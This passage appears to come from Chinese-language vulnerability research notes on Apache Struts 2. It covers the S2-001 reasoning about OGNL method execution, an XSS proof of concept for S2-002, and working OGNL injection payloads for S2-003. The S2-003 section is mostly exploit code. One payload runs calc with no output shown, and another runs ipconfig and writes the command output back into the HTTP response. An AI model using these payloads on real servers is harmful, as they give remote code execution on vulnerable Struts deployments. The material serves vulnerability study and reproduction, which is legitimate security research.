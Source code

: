 前面也说过， `ParametersInterceptor` 中调用 `setParameters()` 之后，还会设置 `denyMethodExecution` 为false。并且我们的Ognl表达式的解析是在  `ParametersInterceptor` 过滤器之后的操作（模板渲染发生在 `ParametersInterceptor` 过滤器过滤之后），所以此时 `denyMethodExecution` 为false，Ognl表达式能调用方法，所以能打。

RCE证明如下：

![image-20210817164727799](/media/image-20210817164727799.png)

## S2-002

影响版本：Struts 2.0.0 - Struts 2.1.8.1

CVE编号：none

POC如下：

```
http://127.0.0.1:8080/S2-001/?<script>alert(123);</script>
http://127.0.0.1:8080/S2-001/?<script xxx>alert(123);</script>
```

XSS漏洞，不分析了。

## S2-003

影响版本：Struts 2.0.0 - Struts 2.1.8.1

CVE编号：none

POC如下：

```java
// 以下通过的测试，均在Tomcat 8.5.38下可以打
// 无回显：
('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)
&
('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\'calc\')')(bla)(bla)

// 带回显：
('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)
&
('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)
&
('\u0023mycmd\u003d\'ipconfig\'')(bla)(bla)
&
('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)
&
(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))
&
(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))
&
(C)(('\u0023mydat.readFully(\u0023myres)')(bla))
&
(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))
&
('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)
&
(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))

// 复现失败：
('\u0023_memberAccess[\'allowStaticMethodAccess\']')(vaaa)=true
&
(aaaa)(('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003d\u0023vccc')(\u0023vccc\u003dnew java.lang.Boolean("false")))
&
(asdf)(('\u0023rt.exec("calc".split("@"))')(\u0023rt\u003d@java.lang.Runtime@getRuntime()))=1
```
